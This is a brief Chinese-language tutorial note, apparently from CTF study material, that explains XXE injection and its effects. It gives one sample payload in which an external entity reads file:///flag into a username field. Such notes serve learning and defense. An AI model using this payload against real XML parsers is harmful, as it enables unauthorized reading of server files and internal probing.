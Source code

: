 #

## XML 漏洞

>Xml外部实体注入漏洞（XML External Entity Injection）简称XXE，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网探测和攻击，发起dos攻击等危害


攻击payload示例：

```html
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///flag">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```


其中：

`<user>` 是外层的容器标签，完全可以换成任何名字

内部的其他标签需要根据实际情况进行调整，有的时候会指定固定的名称的标签，有的时候则没有明确要求可以随意使用
